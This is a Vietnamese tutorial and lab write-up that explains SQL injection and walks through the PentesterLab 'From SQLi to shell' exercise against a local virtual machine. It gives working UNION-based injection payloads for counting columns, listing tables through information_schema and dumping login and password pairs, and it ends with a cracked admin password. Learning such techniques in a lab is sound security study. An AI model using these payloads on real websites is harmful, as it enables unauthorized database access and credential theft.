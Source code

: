 **1. Tìm hiểu sqli là gì? Xảy ra khi nào? Tác hại?
--------------------------------------------------

- Sql Injection (SQLi) là một kỹ thuật cho phép những kẻ tấn công lợi dụng lỗ hổng của việc kiểm tra dữ liệu đầu vào trong các ứng dụng web và các thông báo lỗi của hệ quản trị cơ sở dữ liệu trả về để inject (tiêm vào) và thi hành các câu lệnh SQL bất hợp pháp, Sql Injection có thể cho phép những kẻ tấn công thực hiện các thao tác, thêm, sửa, xóa… trên cơ sở dữ liệu của ứng dụng. 

- Lỗi này thường xảy ra trên các ứng dụng web có dữ liệu được quản lý bằng các hệ quản trị cơ sở dữ liệu như SQL Server, MySQL, Oracle, DB2, Sysbase...

- Sql Injection được mô tả như là một trong những lỗ hổng bảo mật web nguy hiểm nhất. Khai thác Sql Injection, ngoài việc đoạt được quyền kiểm soát về mặt dữ liệu như đã nói ở trên, hacker còn có thể cài đặt backdoor trên server mà ứng dụng đang chạy, qua đó kiểm soát toàn bộ hệ thống…

**2. Chèn dữ liệu vào trong MySQL Database sử dụng PHP
------------------------------------------------------

Dữ liệu có thể được chèn vào MySQL Table bằng việc thực thi lệnh SQL INSERT thông qua hàm mysql_query trong PHP. Dưới đây là ví dụ đơn giản để chèn một record vào trong một Table có tên là employee.

**3. Lab from_sqli_to_shell:
----------------------------

https://pentesterlab.com/exercises/from_sqli_to_shell

Sau khi tải file .iso dựng máy áo chứa sql server chúng ta cần để thực hiện bài lab này

Truy cập vào trang của server ở đây là `http://192.168.1.102/`

<img src="http://i.imgur.com/X5EKRR3.jpg">

Như trong bài `Sql Injection (SQLi)` mà chúng ta đọc ở https://whitehat.vn/forum/thao-luan/web-security/963-web1-sql-injection---con-duong-khai-thac-pho-bien-qua-%93user-input%94 có thể nhận định rặng rỗi sqli xảy ra ở giá trị của biến id trên URL 

Ở đây ta kiếm được `http://192.168.1.102/cat.php?id=1` với giá trị id=1 cũng có thể thay được 2,3,4 ứng với các trang khác nhau

<img src="http://i.imgur.com/bTceP2n.jpg">

**Một số tính chất để phát hiện SQL injection khá hiệu quả:**

- Nếu truy cập /article.php?id=2-1 hiển thị được trang và truy cập /article.php?id=2-0 chuyển về article2, phép trừ được thực hiện bởi cơ sở dữ liệu, và bạn có thể đã tìm thấy một SQL injection

-Nếu truy cập /article.php?id=2-1 chuyển về article2 và truy cập màn /article.php?id=2-0 vẫn chuyển về article2, nó không chắc rằng bạn có SQL injection trên một số nguyên, nhưng bạn có thể có SQL injection trên một chuỗi giá trị như chúng ta sẽ thấy.

-Nếu bạn đặt một dấu ' trong URL (/article.php?id=1 '), bạn nhận được một lỗi.

Dựa vào đó ta sẽ kiểm tra lần lượt và phát hiện được lỗi SQL injection

http://192.168.1.102/cat.php?id=1  
http://192.168.1.102/cat.php?id=2-1 
http://192.168.1.102/cat.php?id=1-0 
http://192.168.1.102/cat.php?id=1'

<img src="http://i.imgur.com/m7YAlpI.jpg">

Bây giờ chúng ta đã tìm được SQL injection trong trang `http://192.168.1.102/cat.php`. Chúng ta cần khai thác nó đê có thông tin, để làm được điều này chúng ta cần sử dụng `UNION` có sẵn ở sql

Khai thác SQL injection sử dụng UNION sau các bước dưới đây:

1. Tìm số cột để thực hiện các UNION

2. Tìm những gì cột được lặp lại trong trang

3. Lấy thông tin từ cơ sở dữ liệu meta-bảng

4. Lấy thông tin từ các bảng / cơ sở dữ liệu khác

Để giải quyết vấn đề này có thể sử dụng `http://192.168.1.102/cat.php?id=1 UNION SELECT 1` sau đó tăng lên `1,2` rồi `1,2,3` rồi `1,2,3,4` sễ nhận được thông báo lỗi ở cột 2

Cách này thường hên xui với số cột ít nên chúng ta sẽ sử dụng lệnh `ORDER BY` `http://192.168.1.102/cat.php?id=1 ORDER BY 4` sẽ không có thông báo lỗi nên xác định được có 4 cột

<img src="http://i.imgur.com/m7YAlpI.jpg">

Giờ chúng ta đã xác định được số cột và bị lỗi ở cột nào ( ở đây cột 2). Ngoài ra chúng ta có thể xem một số thông tin như:

- the database version: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4`

- the current user: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4`

- the current database: `http://192.168.1.102/cat.php?id=1%20UNION%20SELECT%201,database(),3,4`

MySQL cung cấp các bảng chứa các thông về các dữ liệu. Chúng ta sẽ dùng information_schema để khai thác nó
`http://192.168.1.102/cat.php?id=1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns`

<img src="http://i.imgur.com/IQgNJx9.jpg">

Nhận ra ngay có xuất hiện bảng và cột user => vậy chắc chắn nó phải chứa thông tin tài khoản => lấy dữ liệu từ bản này 

`UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

<img src="http://i.imgur.com/AVqK3Zg.jpg">

Vậy là chúng ta có được tài khoản: admin và mật khẩu được mã hóa dưỡi mã MD5 decode được mật khẩu: P4ssw0rd